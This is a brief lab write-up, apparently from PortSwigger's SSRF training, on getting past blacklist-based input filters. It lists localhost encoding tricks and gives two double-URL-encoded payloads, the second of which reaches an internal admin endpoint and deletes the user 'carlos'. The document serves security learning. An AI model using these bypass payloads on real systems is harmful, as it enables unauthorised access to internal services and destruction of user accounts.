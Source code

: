 ```yaml
---
tags: ["blacklist", "bypass"]
image: "img/Portswigger/SSRF.png"
---
```


## SSRF with blacklist-based input filters

Some applications block input containing hostnames like `127.0.0.1` and `localhost`, or sensitive URLs like `/admin`. In this situation, you can often circumvent the filter using various techniques:

- Using an alternative IP representation of `127.0.0.1`, such as `2130706433`, `017700000001`, or `127.1`.
- Registering your own domain name that resolves to `127.0.0.1`. You can use `spoofed.burpcollaborator.net` for this purpose.
- Obfuscating blocked strings using URL encoding or case variation.

## Challenge

--> In this lab we have to bypass a basic SSRF protection by some url encoding or using some localhost alternatives.

So i bypassed the stackApi request with this request.

```
http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
```

![](Attachments/Pastedimage20220220095657.png)

And after that same process as previous challenges!

--> I used this payload and deleted the carlos's account :

```
http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65%25%32%66%25%36%34%25%36%35%25%36%63%25%36%35%25%37%34%25%36%35%25%33%66%25%37%35%25%37%33%25%36%35%25%37%32%25%36%65%25%36%31%25%36%64%25%36%35%25%33%64%25%36%33%25%36%31%25%37%32%25%36%63%25%36%66%25%37%33
```

And we solved the lab!
